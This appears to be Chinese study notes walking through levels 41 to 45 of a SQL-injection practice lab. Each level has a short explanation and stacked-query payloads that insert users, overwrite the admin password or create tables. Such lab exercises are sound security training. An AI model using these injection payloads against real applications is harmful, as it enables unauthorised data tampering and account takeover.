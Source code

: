 #### 【41】

>   与【39】关是一样的，但是错误不回显，错误盲注
>
>   ```sql
>   -- 是整形的注入
>   -- payload
>   ?id=1; insert into users(id,username,password) values ('110','less41','hello')%23
>   ```
>
>   

#### 【42】

>   update更新数据后，username会经过mysql_real_escape_string()过滤，而password没有经过过滤
>
>   ```
>   -- 在password处输入
>   c';update users set password='777' where username='admin'#
>   ```
>
>   

#### 【43】

>   与42相似，在闭合单引号处多了一个小括号
>
>   ```sql
>   c');create table less46 like users#
>   c');update users set password='666' where username='admin'#
>   ```
>
>   

#### 【44】

>   基于盲注，不会显示报错信息，与42的区别就是没有报错信息
>
>   ```sql
>   ';insert into users(id,username,password) value('144','less144','less')#
>   ```
>
>   

#### 【45】

>   与43相似，只不过没有报错显示
>
>   ```sql
>   c');create table less46 like users#
>   ```
>
>   
